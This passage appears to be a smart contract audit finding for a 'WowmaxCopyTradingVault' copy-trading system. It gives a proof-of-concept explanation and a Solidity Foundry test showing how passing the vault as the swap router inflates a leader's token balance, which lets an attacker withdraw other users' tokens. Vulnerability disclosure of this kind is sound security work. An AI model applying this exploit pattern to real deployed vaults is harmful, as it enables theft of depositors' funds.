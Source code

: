 ## Proof of Concept
Let's consider one scenario. An attacker will pass the `WowmaxCopyTradingVault` address as the router address and try to increase the leader's balance for a specific token. If the attacker first makes a deposit for a specific leader, then calls one of these functions to artificially increase the number of tokens for the leader, and then withdraws all tokens, the attacker will be able to take some of the tokens from other users. When withdrawing, the number of tokens withdrawn is calculated as the product of the shares and the leader's total token balance. Even if the attacker deposits only one `tokenA`, and the leader has both `tokenA` and `tokenB`, the attacker will receive a share of `tokenA` and token B, respectively, upon withdrawal.
```solidity 
  function test_Router() public {
        address[] memory allowedTokens = new address[](5);
        allowedTokens[0] = address(wbtc);
        allowedTokens[1] = address(uni);
        allowedTokens[2] = address(pepe);
        allowedTokens[3] = address(weth);
        allowedTokens[4] = address(usdt);

        vault.allowTokens(allowedTokens);

        ///-------balanceOf leader before-----
        assertEq(vault.balances(leader, address(weth)), 0);
        assertEq(vault.balances(leader, address(usdt)), 0);

        //------------
        vm.startPrank(follower);
        weth.approve(address(fundsManager), 1 ether);
        usdt.approve(address(fundsManager), 1 ether);
        bytes memory swapData = abi.encodeWithSelector(
            WowmaxCopyTradingVault.copyTradeDeposit.selector,
            leader,
            weth,
            1 ether
        );
        IWowmaxCopyTradingFundsManager.Swap[] memory swaps = new IWowmaxCopyTradingFundsManager.Swap[](1);
        swaps[0] = IWowmaxCopyTradingFundsManager.Swap({
            amount: 2,
            token: address(weth),
            minAmountOut: 0,
            swapData: swapData
        });
        fundsManager.swapOneToMany(
            IWowmaxCopyTradingFundsManager.MultiSwap({
                router: address(vault),
                token: address(usdt),
                swaps: swaps,
                deadline: block.timestamp + 3600
            }),
            follower
        );

        // -----balanceOf leader after
        assertEq(vault.balances(leader, address(weth)), 1 ether);
    }
```

